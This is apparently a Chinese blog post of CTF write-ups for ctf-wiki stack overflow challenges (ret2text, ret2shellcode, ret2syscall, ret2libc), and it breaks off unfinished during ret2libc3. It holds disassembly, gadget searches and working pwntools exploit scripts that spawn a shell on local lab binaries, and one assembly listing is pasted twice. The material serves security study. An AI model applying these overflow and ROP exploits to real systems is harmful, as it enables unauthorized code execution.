## ret2text

> 来源 [ctf-wiki basic-rop](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/) 。

`ret2text` 是最简单的一题了。gdb 确定目标地址后直接溢出即可。

### 基本信息

```plaintext
# file
bin/ret2text: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=4f13f004f23ea39d28ca91f2bb83110b4b73713f, with debug_info, not stripped

# checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

### 行为分析

运行 `ret2text` 观察行为。

```plaintext
There is something amazing here, do you know anything?
no
Maybe I will tell you next time !%
```

### 反编译分析

`objdump -Sd ret2text` 然后找到 `main` 函数。

```assembly
08048648 <main>:
 8048648:	55                   	push   %ebp
 8048649:	89 e5                	mov    %esp,%ebp
 804864b:	83 e4 f0             	and    $0xfffffff0,%esp
 804864e:	83 c4 80             	add    $0xffffff80,%esp
 8048651:	a1 60 a0 04 08       	mov    0x804a060,%eax
 8048656:	c7 44 24 0c 00 00 00 	movl   $0x0,0xc(%esp)
 804865d:	00 
 804865e:	c7 44 24 08 02 00 00 	movl   $0x2,0x8(%esp)
 8048665:	00 
 8048666:	c7 44 24 04 00 00 00 	movl   $0x0,0x4(%esp)
 804866d:	00 
 804866e:	89 04 24             	mov    %eax,(%esp)
 8048671:	e8 5a fe ff ff       	call   80484d0 <setvbuf@plt>
 8048676:	a1 40 a0 04 08       	mov    0x804a040,%eax
 804867b:	c7 44 24 0c 00 00 00 	movl   $0x0,0xc(%esp)
 8048682:	00 
 8048683:	c7 44 24 08 01 00 00 	movl   $0x1,0x8(%esp)
 804868a:	00 
 804868b:	c7 44 24 04 00 00 00 	movl   $0x0,0x4(%esp)
 8048692:	00 
 8048693:	89 04 24             	mov    %eax,(%esp)
 8048696:	e8 35 fe ff ff       	call   80484d0 <setvbuf@plt>
 804869b:	c7 04 24 6c 87 04 08 	movl   $0x804876c,(%esp)
 80486a2:	e8 d9 fd ff ff       	call   8048480 <puts@plt>
 80486a7:	8d 44 24 1c          	lea    0x1c(%esp),%eax
 80486ab:	89 04 24             	mov    %eax,(%esp)
 80486ae:	e8 ad fd ff ff       	call   8048460 <gets@plt>
 80486b3:	c7 04 24 a4 87 04 08 	movl   $0x80487a4,(%esp)
 80486ba:	e8 91 fd ff ff       	call   8048450 <printf@plt>
 80486bf:	b8 00 00 00 00       	mov    $0x0,%eax
 80486c4:	c9                   	leave  
 80486c5:	c3                   	ret    
 80486c6:	66 90                	xchg   %ax,%ax
 80486c8:	66 90                	xchg   %ax,%ax
 80486ca:	66 90                	xchg   %ax,%ax
 80486cc:	66 90                	xchg   %ax,%ax
 80486ce:	66 90                	xchg   %ax,%ax08048648 <main>:
 8048648:	55                   	push   %ebp
 8048649:	89 e5                	mov    %esp,%ebp
 804864b:	83 e4 f0             	and    $0xfffffff0,%esp
 804864e:	83 c4 80             	add    $0xffffff80,%esp
 8048651:	a1 60 a0 04 08       	mov    0x804a060,%eax
 8048656:	c7 44 24 0c 00 00 00 	movl   $0x0,0xc(%esp)
 804865d:	00 
 804865e:	c7 44 24 08 02 00 00 	movl   $0x2,0x8(%esp)
 8048665:	00 
 8048666:	c7 44 24 04 00 00 00 	movl   $0x0,0x4(%esp)
 804866d:	00 
 804866e:	89 04 24             	mov    %eax,(%esp)
 8048671:	e8 5a fe ff ff       	call   80484d0 <setvbuf@plt>
 8048676:	a1 40 a0 04 08       	mov    0x804a040,%eax
 804867b:	c7 44 24 0c 00 00 00 	movl   $0x0,0xc(%esp)
 8048682:	00 
 8048683:	c7 44 24 08 01 00 00 	movl   $0x1,0x8(%esp)
 804868a:	00 
 804868b:	c7 44 24 04 00 00 00 	movl   $0x0,0x4(%esp)
 8048692:	00 
 8048693:	89 04 24             	mov    %eax,(%esp)
 8048696:	e8 35 fe ff ff       	call   80484d0 <setvbuf@plt>
 804869b:	c7 04 24 6c 87 04 08 	movl   $0x804876c,(%esp)
 80486a2:	e8 d9 fd ff ff       	call   8048480 <puts@plt>
 80486a7:	8d 44 24 1c          	lea    0x1c(%esp),%eax
 80486ab:	89 04 24             	mov    %eax,(%esp)
 80486ae:	e8 ad fd ff ff       	call   8048460 <gets@plt>
 80486b3:	c7 04 24 a4 87 04 08 	movl   $0x80487a4,(%esp)
 80486ba:	e8 91 fd ff ff       	call   8048450 <printf@plt>
 80486bf:	b8 00 00 00 00       	mov    $0x0,%eax
 80486c4:	c9                   	leave
 80486c5:	c3                   	ret
```

注意到不安全函数 `gets` 调用，计算 `lea` 后参数应该是 `0x1c(%esp)`，也就是栈顶往下28个字节。观察函数序言部分，`add    $0xffffff80,%esp` 分配了 128 个字节大小的栈空间，128-28=100 。初步猜测 `gets` 参数长度 100 字节。输入大于 100 即造成溢出。

然后我们寻找到想要返回的目标地址：

```assembly
080485fd <secure>:
    ... 略
```

gdb 调试计算 `0x1c(%esp)` 到返回地址的距离。

返回地址在 `0xffffd24c`，`0x1c(%esp)` 是 `0xffffd1dc`，相减得 112 。

尝试写出 exploit。

```python
import pwn
import struct

p = pwn.gdb.debug('bin/ret2text',
                 '''
                 b main
                 continue
                 ''')
print(p.recv().decode())
p.send(b'A' * 112 + struct.pack('<I', 0x080485fd))
print(p.recv().decode())
p.interactive()
```

调试发现段错误，继续阅读 `secure` 函数的代码。

```assembly
080485fd <secure>:
 80485fd:	55                   	push   %ebp
 80485fe:	89 e5                	mov    %esp,%ebp
 8048600:	83 ec 28             	sub    $0x28,%esp
 8048603:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 804860a:	e8 61 fe ff ff       	call   8048470 <time@plt>
 804860f:	89 04 24             	mov    %eax,(%esp)
 8048612:	e8 99 fe ff ff       	call   80484b0 <srand@plt>
 8048617:	e8 c4 fe ff ff       	call   80484e0 <rand@plt>
 804861c:	89 45 f4             	mov    %eax,-0xc(%ebp)
 804861f:	8d 45 f0             	lea    -0x10(%ebp),%eax
 8048622:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048626:	c7 04 24 60 87 04 08 	movl   $0x8048760,(%esp)
 804862d:	e8 be fe ff ff       	call   80484f0 <__isoc99_scanf@plt>
 8048632:	8b 45 f0             	mov    -0x10(%ebp),%eax
 8048635:	3b 45 f4             	cmp    -0xc(%ebp),%eax
 8048638:	75 0c                	jne    8048646 <secure+0x49>
 804863a:	c7 04 24 63 87 04 08 	movl   $0x8048763,(%esp)
 8048641:	e8 4a fe ff ff       	call   8048490 <system@plt>
 8048646:	c9                   	leave  
 8048647:	c3                   	ret    
```

人肉反编译下得到伪代码。

```c
srand(time());
var_0xc = rand();
scanf("%d", &var_0x10);
if (var_0xc != var_0x10) return;
system("/bin/sh");
```

soooooo，没必要硬怼随机数，直接跳到 `system("/bin/sh")` 就好。把 exploit 中跳转地址改成 `0x804863a` 完事。

### exploit

```python
import pwn
import struct

p = pwn.process('./bin/ret2text')

print(p.recv().decode())
p.sendline(b'A'*112+struct.pack('<I', 0x804863a))
print(p.recv().decode())
p.interactive()
```



## ret2shellcode

> 来源依然是 ctf-wiki 我就不放链接了。

### 基本信息

```plaintext
# file 
bin/ret2shellcode: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=47e6d638fe0f3a3ff4695edb8b6c7e83461df949, with debug_info, not stripped
# checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

### 行为分析

```plaintext
(.venv) vm :: repos/pwn/lab-4 » bin/ret2shellcode
No system for you this time !!!
noooooooooooo
bye bye ~%
```

### 反编译分析

这次换个工具。



知名的 Ghidra，直接看 C 代码。

```c
int main(void)
{
  char buf [100];
  char local_74 [112];
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,1,0);
  puts("No system for you this time !!!");
  gets(local_74);
  strncpy(buf2,local_74,100);
  printf("bye bye ~");
  return 0;
}
```

不装模作样分析，直接看`strncpy`，函数签名是 `strncpy(char* dest,const char* src, size_t count)`，写入的位置 `buf2` 观察下有没有执行权限。`buf2` 是可读写全局变量，这种全局变量放置在`.bss`段，所以直接看`.bss`段有没有可执行属性。



emmm......



emmmmmmmmmm..........

好。那不用看 ctf-wiki 的题解了，按自己的思路来。`checksec` 的结果是 `NX: false`，栈上有可执行权限。而且没有 PIE，关了 ASLR 直接硬编码栈上地址就完事。

老规矩算一下 buf `0xffffd0ec` 到返回地址的 `0xffffd15c` 距离，溢出后地址设置为`buf`的地址。计算得距离 112 字节，接下来写 exploit 。

### exploit

> 注意环境变量数量会影响 `&buf` 的地址，为了保证得到的地址和 `pwn.process` 启动一致，最好调试时也使用 `pwn.gdb.debug` 启动，设置下 `env={}`。或自己管理环境变量，确保不影响栈上变量的地址。

```python
import pwn
from pwn import shellcraft
import struct

p = pwn.process('./bin/ret2shellcode', env={})
payload = pwn.asm(shellcraft.linux.sh())
payload += b'A' * (112 - len(payload))
payload += struct.pack('<I', 0xffffddcc)
p.sendline(payload)
p.interactive()
```



## ret2syscall

> 题目来自 ctf-wiki。

### 基本信息

```plaintext
# file
bin/ret2syscall: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=2bff0285c2706a147e7b150493950de98f182b78, with debug_info, not stripped
# checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

### 行为分析

```plaintext
(.venv) vm :: repos/pwn/lab-4 » bin/ret2syscall
This time, no system() and NO SHELLCODE!!!
What do you plan to do?
123
```

### 反编译分析

还是 Ghidra ，熟悉下工具。



只有一个输入，buf实际长度应该是100，和返回地址距离112。因为NX开启栈段是没有执行权限的。简单翻一下 PLT 发现也确实没有 `system` 函数。

x86 32位系统调用 int 80h 方式需要通过寄存器传参和传递系统调用号，单覆盖一个返回地址是屁用没有的。想要构造出系统调用必须的上下文（覆盖给定的寄存器），就需要找到一个或多个 `pop; ret` 指令序列，填充好寄存器后再跳转到 `int $0x80`指令处。

需要控制的寄存器有：`eax`、`ebx`、`ecx`、`edx` 四个。

用 ROPGadget 查找可用的 Gadgets 。

```plaintext
(.venv) vm :: repos/pwn/lab-4 » ROPgadget --binary bin/ret2syscall --only 'pop|ret' | grep 'eax'
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```

第一个和第六个都能控制多个寄存器，但都有多余的 `pop` 指令，我们先选第二个 `0x080bb196 : pop eax ; ret` 再搜索控制`ebx`的指令序列。简单起见我就把其他结果略了，下面的结果正好控制了剩余三个寄存器 `ebx`、`ecx`、`edx`。

```plaintext
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
```

再寻找一个 `int $0x80` 。

```plaintext
(.venv) vm :: repos/pwn/lab-4 » ROPgadget --binary bin/ret2syscall --only 'int'
Gadgets information
============================================================
0x08049421 : int 0x80
```

然后顺便找一下有没有现成的 `/bin/sh` 或者 `sh` 字符串可以用。

```plaintext
(.venv) vm :: repos/pwn/lab-4 » ROPgadget --binary bin/ret2syscall --string '/bin/sh'
Strings information
============================================================
0x080be408 : /bin/sh
```

我们最终想要得到的栈是这样的：



现在已经凑齐了所有要素，可以开始写 exploit 。

### exploit

```python
import pwn
import struct

p = pwn.process('./bin/ret2syscall')

# gadgets chain
gadget1 = pwn.p32(0x080bb196) # pop eax; ret
eax = pwn.p32(11)
gadget2 = pwn.p32(0x0806eb90) # pop edx; pop ecx; pop ebx; ret
edx = pwn.p32(0)
ecx = pwn.p32(0)
ebx = pwn.p32(0x080be408)
gadget3 = pwn.p32(0x08049421) # int 0x80

payload = b''.join([b'A'*112, gadget1, eax, gadget2, edx, ecx, ebx, gadget3])
p.sendline(payload)
p.interactive()
```



## ret2libc1

### 基本信息

```plaintext
# file
bin/ret2libc1: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=fb89c86b266de4ff294489da59959a62f7aa1e61, with debug_info, not stripped
# checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

### 行为分析

```plaintext
(.venv) vm :: repos/pwn/lab-4 » bin/ret2libc1
RET2LIBC >_<
hi
```

### 反编译分析



老样子。112偏移，看一眼有没有可利用的字符串。

```plaintext
(.venv) vm :: repos/pwn/lab-4 » ROPgadget --binary bin/ret2libc1 --string '/bin/sh'
Strings information
============================================================
0x08048720 : /bin/sh
```

再看一眼 PLT 有没有 `system` 函数。

```plaintext
(.venv) vm :: repos/pwn/lab-4 » objdump -d -j .plt bin/ret2libc1 | grep system
08048460 <system@plt>:
```

接下来就简单了，直接写 exploit 。

### exploit

```python
from pwn import *

p = process('./bin/ret2libc1', env={})
#                          &system  reta  "/bin/sh"
p.sendline(flat([b'A'*112, 0x08048460, 0, 0x08048720]))
p.interactive()
```



## ret2libc2

### 基本信息

```plaintext
# file
bin/ret2libc2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=83535a471d9ef90c3d5ff7f077944fb6021787a1, with debug_info, not stripped
# checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

### 行为分析

```plaintext
(.venv) vm :: repos/pwn/lab-4 » bin/ret2libc2
Something surprise here, but I don't think it will work.
What do you think ?no
```

### 反编译分析



`main` 函数里没有有用的内容。搜索 `/bin/sh` 字符串无结果，但有 `system` 函数。那我们考虑下怎么往里面填一个 `/bin/sh` 。大致扫上一眼没有别的值得关注的地方，就开始考虑下怎么填字符串。

填字符串最直接的办法就是往栈上压，然后栈上地址传给 `system` 。缺点是这个做法在开启 PIE 的时候就没成功过，大概是栈上变量的地址一直在变。

另一个办法是找个 RW 权限的内存段往里面写，然后把地址传给 `system`。注意到导出符号有一个全局变量 `buf2`。



`buf2` 是一个可写的全局变量，在`.bss`段里，我们直接用它，配合 `gets` 来控制程序读 `/bin/sh` 字符串。

预期的栈结构如下。



`gets` 读取完`/bin/sh`后直接跳转`system`，原先作为`gets`参数的`buf2`地址就变成了`system`的返回地址，不过我们不在乎。第二个`buf2`则变成了`system`的参数。

从 plt 取 `gets` 和 `system` 函数的地址，然后开始写 exploit 。

```plaintext
(.venv) vm :: repos/pwn/lab-4 » objdump -d -j .plt bin/ret2libc2 | grep system
08048490 <system@plt>:
(.venv) vm :: repos/pwn/lab-4 » objdump -d -j .plt bin/ret2libc2 | grep gets
08048460 <gets@plt>:
```

### exploit

```python
from pwn import *

p = process('./bin/ret2libc2', env={})
p.sendline(flat([b'A'*112, 0x08048460, 0x08048490, 0x0804a080, 0x0804a080]))
p.sendline(b'/bin/sh')
p.interactive()
```



## ret2libc3

### 基本信息

```plaintext
# file
bin/ret2libc3: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=c0ad441ebd58b907740c1919460c37bb99bb65df, with debug_info, not stripped
# checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

### 行为分析

```plaintext
(.venv) vm :: repos/pwn/lab-4 » bin/ret2libc3
No surprise anymore, system disappeard QQ.
Can you find it !?no
```

### 反编译分析



查看 plt 发现确实没有 `system` 函数。

```plaintext
(.venv) vm :: repos/pwn/lab-4 » objdump -d -j .plt bin/ret2libc3 | grep system
(.venv) vm :: repos/pwn/lab-4 »
```

能不能用 `ret2syscall` 的技巧呢？

```plaintext
(.venv) vm :: repos/pwn/lab-4 » ROPgadget --binary bin/ret2libc3 --only 'pop|ret'                                                                                                                            1 ↵
Gadgets information
============================================================
0x080486ff : pop ebp ; ret
0x080486fc : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804841d : pop ebx ; ret
0x080486fe : pop edi ; pop ebp ; ret
0x080486fd : pop esi ; pop edi ; pop ebp ; ret
0x08048406 : ret
0x0804854e : ret 0xeac1

Unique gadgets found: 7
```

很遗憾，缺乏控制 `ecx` 和 `edx` 寄存器的 gadget 。直接快进到找 `system` 地址。学习一下 ctf-wiki 上关于找 libc 里地址的方法。装个 `libcsearcher`，整理下思路。

取得`system`函数的原理是利用 `libc.so` 库函数之间相对偏移确定这一点，只要已知 libc 版本和一个 libc 函数的地址，即可推算出其他 libc 函数的地址。利用这一原理取得 libc 地址需要先知道当前 libc 版本和一个已知地址。

取得已知地址则又需要一点点技巧，因为 GOT 是延迟绑定的。也就是说，只有在第一次调用后，GOT 里填充的值才是真正的地址。在第一次调用前，里面填充其实是 PLT 的地址。我们用代码说话。

```assembly
08048490 <__libc_start_main@plt>:
 8048490:       ff 25 24 a0 04 08       jmp    *0x804a024
 8048496:       68 30 00 00 00          push   $0x30
 804849b:       e9 80 ff ff ff          jmp    8048420 <.plt>
```

`jmp *0x804a024`，`0x804a024`是 GOT 上 `__libc_start_main` 的地址，在第一次调用前，这个地址上填充的值实际是 `0x8048496`，也就是 `__libc_start_main@plt` 第二条指令 `push $0x30` 的地址。

而后的 `push`和 `jmp` 最终会调用 `_dl_runtime_resolve` 函数（`.got.plt`第三项）完成解析，填充 GOT 并返回。

这玩意儿和 PE 文件的 IAT 性质是一样的，只是PE少一步延迟链接。

综上所述随便拿一个GOT表项的值是不行的，因为里面的地址可能是 PLT 的地址而不是真实 libc 函数的地址。

## 烂尾总结

续于 2022年12月31日。

整理草稿箱的时候发现了这篇写了一半的博客。这篇应该是在六七月开始写的，写了大半，结果工作一忙，完全忘了。这会儿思路也续不上，干脆就弃坑了。

就这样吧，叹口气，但不管怎么着生活还得继续。
